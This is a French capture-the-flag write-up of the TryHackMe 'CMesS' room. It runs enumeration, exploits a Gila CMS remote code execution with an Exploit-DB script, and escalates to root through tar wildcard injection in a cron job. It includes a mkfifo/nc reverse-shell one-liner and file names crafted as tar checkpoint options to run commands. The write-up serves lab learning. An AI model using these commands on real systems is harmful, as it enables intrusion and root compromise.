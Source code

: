 # THM CMesS
De l'exploit, de l'énumération, de la recherche. Une bonne room sympatoche !

IP : 10.10.41.234

# Enumeration
## Nmap:
```nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-10 09:20 EST
Nmap scan report for 10.10.41.234
Host is up (0.036s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)
|   256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)
|_  256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-generator: Gila CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.89 seconds
```
2 ports ouverts, le port ssh et un port 80 qui indique un serveur web.
## subdomain enumeration :
```
┌──(kali㉿kali)-[~]
└─$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://cmess.thm' -H "Host: FUZZ.cmess.thm" --hw 290 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://cmess.thm/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                        
=====================================================================

000000019:   200        30 L     104 W      934 Ch      "dev"                                                                                                          

Total time: 0
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 0
```
Je retrouve donc ici un subdomain dev.cmess.thm

Une fois ajouter dans le fichier hosts, on retrouve bien une page derrière avec des informations utiles !
```
Development Log
andre@cmess.thm

Have you guys fixed the bug that was found on live?
support@cmess.thm

Hey Andre, We have managed to fix the misconfigured .htaccess file, we're hoping to patch it in the upcoming patch!
support@cmess.thm

Update! We have had to delay the patch due to unforeseen circumstances
andre@cmess.thm

That's ok, can you guys reset my password if you get a moment, I seem to be unable to get onto the admin panel.
support@cmess.thm

Your password has been reset. Here: ***********
```

On a donc le compte pour acceder a l'admin panel
Compte :

```
andre@cmess.thm
**************
```
# Exploitation
La version de Gila est la 1.10.9, celle-ci est vulnérable et une RCE est exploitable. 

L'exploit ce trouve ici: https://www.exploit-db.com/exploits/51569

```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/CMesS]
└─$ python3 51569.py

 ██████╗ ██╗██╗      █████╗      ██████╗███╗   ███╗███████╗    ██████╗  ██████╗███████╗                                                                                         
██╔════╝ ██║██║     ██╔══██╗    ██╔════╝████╗ ████║██╔════╝    ██╔══██╗██╔════╝██╔════╝                                                                                         
██║  ███╗██║██║     ███████║    ██║     ██╔████╔██║███████╗    ██████╔╝██║     █████╗                                                                                           
██║   ██║██║██║     ██╔══██║    ██║     ██║╚██╔╝██║╚════██║    ██╔══██╗██║     ██╔══╝                                                                                           
╚██████╔╝██║███████╗██║  ██║    ╚██████╗██║ ╚═╝ ██║███████║    ██║  ██║╚██████╗███████╗                                                                                         
 ╚═════╝ ╚═╝╚══════╝╚═╝  ╚═╝     ╚═════╝╚═╝     ╚═╝╚══════╝    ╚═╝  ╚═╝ ╚═════╝╚══════╝                                                                                         
                                                                                                                                                                                
                              by Unknown_Exploit                                                                                                                                
                                                                                                                                                                                
Enter the target login URL (e.g., http://example.com/admin/): http://cmess.thm/admin
Enter the email: andre@cmess.thm
Enter the password: ***********
Enter the local IP (LHOST): {MON IP}
Enter the local port (LPORT): 4444
File uploaded successfully.
```
Et nous voila avec un revshell 
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444                 
listening on [any] 4444 ...
connect to [{MON IP}] from (UNKNOWN) [10.10.41.234] 36216
bash: cannot set terminal process group (725): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cmess:/var/www/html/tmp$
```

# Post exploitation
On farfouillant un peu on retrouve dans le dossier /opt un fichier intéressant
```
www-data@cmess:/$ cd /opt
www-data@cmess:/opt$ ls -la
total 12
drwxr-xr-x  2 root root 4096 Feb  6  2020 .
drwxr-xr-x 22 root root 4096 Feb  6  2020 ..
-rwxrwxrwx  1 root root   36 Feb  6  2020 .password.bak
www-data@cmess:/opt$ cat .password.bak 
andres backup password
UQf*******
```
Nous voila désormais connecter en tant qu'andre 
```
www-data@cmess:/opt$ su andre
Password: 
andre@cmess:/opt$ 
```
On trouve le 1er flag dans le home de andre :
```
andre@cmess:~$ cat user.txt 
thm{c52**************************}
```
## Privesc to root !
J'importe LSE *(Linux Smart Enumeration)* et l'execute. Il trouve quelque chose d'intéressant dans les taches cron :
```
[!] ret060 Can we write to executable paths present in cron jobs........... yes!
---
/etc/crontab:*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```
Dans le dossier backup, on retrouve une fichier note qui indique :
```
andre@cmess:~/backup$ cat note 
Note to self.
Anything in here will be backed up!
```
On va donc utiliser les checkpoints de **tar** pour executer un shell.

Voici la marche à suivre:

1) On créer le shell
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {MON IP} 1234 >/tmp/f" > shell.sh
```
2) On configurer les checkpoint
```
touch -- --checkpoint=1
touch -- "--checkpoint-action=exec=sh shell.sh"
```
3) On ouvre un listener sur notre machine
```
nc -lnvp 1234
```
4) On attend que la tache cron s'execute .
Et nous voila root
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234                       
listening on [any] 1234 ...
connect to [{MON IP}] from (UNKNOWN) [10.10.41.234] 39532
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```
Le flag est toujours au même endroit
```
# cat /root/root.txt    
thm{9f****************************}
```

